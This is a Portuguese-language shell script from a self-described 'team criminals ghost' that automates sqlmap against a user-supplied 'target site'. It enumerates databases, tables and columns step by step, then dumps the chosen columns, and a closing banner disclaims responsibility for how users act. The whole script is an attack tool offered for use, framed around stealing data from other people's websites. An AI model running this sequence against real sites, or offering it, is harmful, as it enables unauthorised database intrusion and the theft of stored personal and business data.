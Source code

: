 #!/bin/sh
#coding: utf-8
#script feito por supremo
clear
#script com 6 partes

#BANNER PRINCIPAL 
echo "
  ▄▄▄▄▄   ▄   █ ▄▄  █▄▄▄▄ ▄███▄   █▀▄▀█ ████▄ █▀▄▀█ ██   █ ▄▄  
  █     ▀▄  █  █   █ █  ▄▀ █▀   ▀  █ █ █ █   █ █ █ █ █ █  █   █ 
▄  ▀▀▀▀▄ █   █ █▀▀▀  █▀▀▌  ██▄▄    █ ▄ █ █   █ █ ▄ █ █▄▄█ █▀▀▀  
 ▀▄▄▄▄▀  █   █ █     █  █  █▄   ▄▀ █   █ ▀████ █   █ █  █ █     
         █▄ ▄█  █      █   ▀███▀      █           █     █  █    
          ▀▀▀    ▀    ▀              ▀           ▀     █    ▀   
                                                      ▀         
                      
                  ###################################
                  #   script feito por supremo      #
                  #     team criminals ghost        #
                  #  script automatizado do sqlmap  # 
                  #   creditos http://sqlmap.org/   #
                  #    aperte ctrl + c para sair    #
                  ###################################
                                                                      
"
#FIM DO BANNER PRINCIPAL

#PARTE 1 DO SCRIPT                                               
read -p "digite o site alvo>>" alvo
sleep 1
echo "
▪   ▐ ▄  ▐▄▄▄▄▄▄ .▄▄▄▄▄ ▄▄▄·  ▐ ▄ ·▄▄▄▄            ▄▄·  ▄▄▄· ▄▄▄   ▄▄▄·  ▄▄· ▄▄▄▄▄▄▄▄ .▄▄▄  ▄▄▄ ..▄▄ · 
██ •█▌▐█  ·██▀▄.▀·•██  ▐█ ▀█ •█▌▐███▪ ██▪         ▐█ ▌▪▐█ ▀█ ▀▄ █·▐█ ▀█ ▐█ ▌▪•██  ▀▄.▀·▀▄ █·▀▄.▀·▐█ ▀. 
▐█·▐█▐▐▌▪▄ ██▐▀▀▪▄ ▐█.▪▄█▀▀█ ▐█▐▐▌▐█· ▐█▌▄█▀▄     ██ ▄▄▄█▀▀█ ▐▀▀▄ ▄█▀▀█ ██ ▄▄ ▐█.▪▐▀▀▪▄▐▀▀▄ ▐▀▀▪▄▄▀▀▀█▄
▐█▌██▐█▌▐▌▐█▌▐█▄▄▌ ▐█▌·▐█ ▪▐▌██▐█▌██. ██▐█▌.▐▌    ▐███▌▐█ ▪▐▌▐█•█▌▐█ ▪▐▌▐███▌ ▐█▌·▐█▄▄▌▐█•█▌▐█▄▄▌▐█▄▪▐█
▀▀▀▀▀ █▪ ▀▀▀• ▀▀▀  ▀▀▀  ▀  ▀ ▀▀ █▪▀▀▀▀▀• ▀█▄▀▪    ·▀▀▀  ▀  ▀ .▀  ▀ ▀  ▀ ·▀▀▀  ▀▀▀  ▀▀▀ .▀  ▀ ▀▀▀  ▀▀▀▀
#by:SUPREMO
"
sqlmap -u $alvo --dbs
#FIM DA PARTE 1 DO SCRIPT

#PARTE 2 DO SCRIPT
read -p "digite a database>>" db
sleep 2
echo "
▄▄▄ .▐▄• ▄ ▄▄▄▄▄▄▄▄   ▄▄▄· ▪   ▐ ▄ ·▄▄▄▄           ·▄▄▄▄  ▄▄▄▄· .▄▄ · 
▀▄.▀· █▌█▌▪•██  ▀▄ █·▐█ ▀█ ██ •█▌▐███▪ ██▪         ██▪ ██ ▐█ ▀█▪▐█ ▀. 
▐▀▀▪▄ ·██·  ▐█.▪▐▀▀▄ ▄█▀▀█ ▐█·▐█▐▐▌▐█· ▐█▌▄█▀▄     ▐█· ▐█▌▐█▀▀█▄▄▀▀▀█▄
▐█▄▄▌▪▐█·█▌ ▐█▌·▐█•█▌▐█ ▪▐▌▐█▌██▐█▌██. ██▐█▌.▐▌    ██. ██ ██▄▪▐█▐█▄▪▐█
 ▀▀▀ •▀▀ ▀▀ ▀▀▀ .▀  ▀ ▀  ▀ ▀▀▀▀▀ █▪▀▀▀▀▀• ▀█▄▀▪    ▀▀▀▀▀• ·▀▀▀▀  ▀▀▀▀
#by:SUPREMO
"
sqlmap -u $alvo -D $db --tables
#FIM DA PARTE 2 DO SCRIPT

#PARTE 3 DO SCRIPT
read -p " digite a tabela>>" table
sleep 3
echo "
▄▄▌  ▪  .▄▄ ·▄▄▄▄▄ ▄▄▄·  ▐ ▄ ·▄▄▄▄           ▄▄▄▄▄ ▄▄▄· ▄▄▄▄· ▄▄▄ .▄▄▌   ▄▄▄· .▄▄ · 
██•  ██ ▐█ ▀.•██  ▐█ ▀█ •█▌▐███▪ ██▪         •██  ▐█ ▀█ ▐█ ▀█▪▀▄.▀·██•  ▐█ ▀█ ▐█ ▀. 
██▪  ▐█·▄▀▀▀█▄▐█.▪▄█▀▀█ ▐█▐▐▌▐█· ▐█▌▄█▀▄      ▐█.▪▄█▀▀█ ▐█▀▀█▄▐▀▀▪▄██▪  ▄█▀▀█ ▄▀▀▀█▄
▐█▌▐▌▐█▌▐█▄▪▐█▐█▌·▐█ ▪▐▌██▐█▌██. ██▐█▌.▐▌     ▐█▌·▐█ ▪▐▌██▄▪▐█▐█▄▄▌▐█▌▐▌▐█ ▪▐▌▐█▄▪▐█
.▀▀▀ ▀▀▀ ▀▀▀▀ ▀▀▀  ▀  ▀ ▀▀ █▪▀▀▀▀▀• ▀█▄▀▪     ▀▀▀  ▀  ▀ ·▀▀▀▀  ▀▀▀ .▀▀▀  ▀  ▀  ▀▀▀▀
#by:SUPREMO
"
sqlmap -u $alvo -D $db -T $table --columns
#FIM DA PARTE 3 DO SCRIPT

#PARTE 4 DO SCRIPT
read -p "digite a coluna>>" coluna
sleep 4
echo "
 ▄▄·  ▄▄▄· ▄▄▄  ▄▄▄  ▄▄▄ . ▄▄ •  ▄▄▄·  ▐ ▄ ·▄▄▄▄            ▄▄·       ▄▄▌  ▄• ▄▌ ▐ ▄  ▄▄▄· .▄▄ · 
▐█ ▌▪▐█ ▀█ ▀▄ █·▀▄ █·▀▄.▀·▐█ ▀ ▪▐█ ▀█ •█▌▐███▪ ██▪         ▐█ ▌▪▪     ██•  █▪██▌•█▌▐█▐█ ▀█ ▐█ ▀. 
██ ▄▄▄█▀▀█ ▐▀▀▄ ▐▀▀▄ ▐▀▀▪▄▄█ ▀█▄▄█▀▀█ ▐█▐▐▌▐█· ▐█▌▄█▀▄     ██ ▄▄ ▄█▀▄ ██▪  █▌▐█▌▐█▐▐▌▄█▀▀█ ▄▀▀▀█▄
▐███▌▐█ ▪▐▌▐█•█▌▐█•█▌▐█▄▄▌▐█▄▪▐█▐█ ▪▐▌██▐█▌██. ██▐█▌.▐▌    ▐███▌▐█▌.▐▌▐█▌▐▌▐█▄█▌██▐█▌▐█ ▪▐▌▐█▄▪▐█
·▀▀▀  ▀  ▀ .▀  ▀.▀  ▀ ▀▀▀ ·▀▀▀▀  ▀  ▀ ▀▀ █▪▀▀▀▀▀• ▀█▄▀▪    ·▀▀▀  ▀█▄▀▪.▀▀▀  ▀▀▀ ▀▀ █▪ ▀  ▀  ▀▀▀▀ 
#by:SUPREMO
"
sqlmap -u $alvo -D $db -T $table -C $coluna --dump
#FIM DA PARTE 4 DO SCRIPT

#FINAL 
echo "
  ▄▄▄▄▄   ▄   █ ▄▄  █▄▄▄▄ ▄███▄   █▀▄▀█ ████▄ █▀▄▀█ ██   █ ▄▄  
  █     ▀▄  █  █   █ █  ▄▀ █▀   ▀  █ █ █ █   █ █ █ █ █ █  █   █ 
▄  ▀▀▀▀▄ █   █ █▀▀▀  █▀▀▌  ██▄▄    █ ▄ █ █   █ █ ▄ █ █▄▄█ █▀▀▀  
 ▀▄▄▄▄▀  █   █ █     █  █  █▄   ▄▀ █   █ ▀████ █   █ █  █ █     
         █▄ ▄█  █      █   ▀███▀      █           █     █  █    
          ▀▀▀    ▀    ▀              ▀           ▀     █    ▀   
                                                      ▀        
             #############################################
             #         obrigado por usar o script        #
             #    nao me responsabilizo pelos seus atos  #
             #        script de autoria do supremo       #  
             #        salves:dark,cyber,black,panda      #
             #############################################
godbye :)
"
